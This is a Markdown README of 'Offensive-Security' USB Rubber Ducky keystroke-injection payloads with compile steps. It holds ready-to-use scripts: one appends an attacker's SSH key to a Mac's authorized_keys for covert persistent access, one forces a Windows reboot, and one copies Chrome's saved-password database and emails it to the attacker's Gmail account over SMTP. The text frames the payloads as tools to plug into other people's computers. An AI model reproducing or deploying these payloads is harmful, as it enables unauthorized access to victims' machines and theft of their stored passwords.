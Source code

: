 # **Offensive-Security**

## **1. OSX Passwordless SSH access**

### **Step 1: Download the Duck Encoder**

In order to create Rubber Ducky payloads, we need to have the duck encoder installed. This is a program that takes our ducky script and converts it into  a cross-platform inject.bin file that the keyboard adapter will use to deliver our keystroke payload.

You can download the duck encoder here: https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/duckencoder.jar

### **Step 2: Insert the microSD card into your computer**

If you don’t want to run the payload on your own computer, make sure you swap the microSD card out of the keyboard adapter and into the smaller plastic microSD-to-USB adapter that they provide. This will allow it to mount to your system as a regular USB storage device.

### **Step 3: Create payload using Ducky Script**

The syntax is very simple, the most important ones are:

* **REM**: allows you to add comments to the program to leave notes to yourself that the program won’t execute
* **STRING**: will type the remainder of the line exactly as-is into the target computer
* **ENTER** or **SPACE**: will hit the “enter” or “space” keys, pretty straightforward
* **DELAY**: instructs the program to wait a number of milliseconds before continuing
* **GUI**: is like pressing the cmd key on a Mac or the Windows Key on a PC. You’ll commonly see GUI SPACE to open the spotlight search on payloads for Macs, or GUI r to open the “Run” dialogue box on payloads meant for Windows systems

#### Payload Ducky Script for passwordless ssh access:
```
DELAY 1000
COMMAND SPACE
DELAY 500
STRING Terminal
DELAY 500
ENTER
DELAY 800
STRING echo 'RSA_PUB_ID' >> ~/.ssh/authorized_keys
ENTER
DELAY 1000
STRING killall Terminal
ENTER
```
>* **Replace RSA_PUB_ID with your SSH Public Key.**
### **Step 4: Compile Ducky Script into an inject.bin**

After writing the ducky script, we need to compile it and transfer it ot microSD card.

In order to compile it, simply run:
```
java -jar ~/$pathToDecoder$/duckencoder.jar  -i ~/$pathToScript$/$scriptName$.txt -o /$outputPath$\ NAME/inject.bin
```

When this command runs, you should see output like:
```
Hak5 Duck Encoder 2.6.3

Loading File .....    [ OK ]
Loading Keyboard File ..... [ OK ]
Loading Language File ..... [ OK ]
Loading DuckyScript ..... [ OK ]
DuckyScript Complete..... [ OK ]
```
If so, you’re done! Your ducky script has been compiled and transferred to the microSD card.

### **Step 5: Plug in the USB Rubber Ducky to Host**

This is the most important step, you have to find you way to plug in this USB to Host computer :)

## **2. Reboot System**
The same step as OSX Passwordless SSH access. Simply replace the ducky script:
```
DELAY 2000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 100
STRING reboot
DELAY 100
ENTER
```

## **3. Chrome Password Stealer**
This only works for windows! This script will steal the local password for chrome in about 10 sec and send it to your preferred gmail. You can change delays for slower computers. You can also delete the the GUI L in the end, that only locks the computer in the end of the script.
```
DELAY 1000
GUI R
DELAY 100
STRING powershell
DELAY 10
ENTER
DELAY 300
STRING copy "C:\Users\$env:UserName\AppData\Local\Google\Chrome\User Data\Default\Login Data" "Desktop"
DELAY 10
ENTER
DELAY 10
Y
DELAY 10
ENTER
DELAY 10
STRING $SMTPServer = 'smtp.gmail.com'
DELAY 20
ENTER
DELAY 30
STRING $SMTPInfo = New-Object Net.Mail.SmtpClient($SmtpServer, 587)
DELAY 20
ENTER
DELAY 30
STRING $SMTPInfo.EnableSsl = $true
DELAY 20
ENTER
DELAY 30
STRING $SMTPInfo.Credentials = New-Object System.Net.NetworkCredential('your gmail', 'Your gmail password')
DELAY 20
ENTER
DELAY 30
STRING $E = New-Object System.Net.Mail.MailMessage
DELAY 20
ENTER
DELAY 30
STRING $E.From = 'your gmail'
DELAY 20
ENTER
DELAY 30
STRING $E.To.Add('your gmail')
DELAY 20
ENTER
DELAY 30
STRING $E.Subject = $env:UserName
DELAY 20
ENTER
DELAY 30
STRING $E.Body = 'C pswd'
DELAY 20
ENTER
DELAY 30
STRING $F = "Desktop\login data"
DELAY 20
ENTER
DELAY 30
STRING $E.Attachments.Add($F)
DELAY 20
ENTER
DELAY 30
STRING $SMTPInfo.Send($E)
DELAY 20
ENTER
DELAY 50
STRING exit
DELAY 10
ENTER
DELAY 50
GUI L
```

## **4. Toolkit**

Here is a website that can help encode the script. Also it can help decode the inject.bin which may help to learn others script.
https://ducktoolkit.com/